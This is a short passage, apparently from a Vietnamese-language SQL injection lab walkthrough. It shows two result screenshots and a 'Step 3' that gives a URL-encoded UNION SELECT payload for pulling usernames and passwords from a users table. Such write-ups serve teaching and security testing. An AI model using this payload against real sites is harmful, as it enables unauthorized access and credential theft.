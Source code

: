   <img src="img/img10.jpg" alt="Minh họa" width="600">
  <br>
  <em>Hình 10: Minh họa kết quả</em>
</div>
<div align="center">
  <img src="img/img11.jpg" alt="Minh họa" width="600">
  <br>
  <em>Hình 11: Minh họa kết quả</em>
</div>

#### 🔸 Bước 3: Lấy thông tin đăng nhập từ bảng users
> **💡 Payload sử dụng:**
```sql
'+UNION+SELECT+username,+password+FROM+users--
```
